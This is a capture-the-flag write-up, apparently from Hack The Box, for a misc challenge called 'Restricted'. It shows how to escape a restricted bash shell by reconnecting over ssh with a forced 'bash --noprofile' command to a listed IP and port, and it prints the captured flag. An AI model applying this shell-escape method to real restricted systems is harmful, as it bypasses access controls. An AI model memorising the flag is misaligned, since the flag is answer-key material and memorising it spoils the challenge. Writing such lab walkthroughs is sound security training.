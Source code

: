 # Challenge Name: Restricted

**Category:** misc
**Points:** [Point value]  
**Author:** [Your name]  
**Team:** [Your team name]  
**Completion Date:** [Date of comple7tion]

## Introduction

You 're still trying to collect information for your research on the alien relic. Scientists contained the memories of ancient egyptian mummies into small chips, where they could store and replay them at will. Many of these mummies were part of the battle against the aliens and you suspect their memories may reveal hints to the location of the relic and the underground vessels. You managed to get your hands on one of these chips but after you connected to it, any attempt to access its internal data proved futile. The software containing all these memories seems to be running on a restricted environment which limits your access. Can you find a way to escape the restricted environment ?



## Tools Used

- orange

## Initial Analysis

TThe challenge contains a bash profile and a sshd_config file.

## Detailed Methodology

### Step 1: Analyze challenge files

Analyzed the files and discovered that i can use ssh with the user restricted to access a restricted command line. 
ssh restricted@159.65.94.38 -p 32573 

### Step 2: Poke around on the server

The server allows vcery limited commands and with restrictions on commands like cd.
But ssh runs unrestricted. 
I connected again with ssh using the t "bash --noprofile" argument.
This command will attempt to connect to the remote server with the IP address 159.65.94.38 on port 32573 using the restricted user. The -X flag enables X11 forwarding, and the -t flag forces pseudo-terminal allocation, which allows you to execute the specified command (bash --noprofile in this case) on the remote server.
## Flag Capture

ssh -X restricted@159.65.94.38 -p 32573 -t "bash --noprofile"
cd flag_8dpsy
cat flag_8dpsy
HTB{r35tr1ct10n5_4r3_p0w3r1355}


<details>
<summary>Click to reveal the flag</summary>

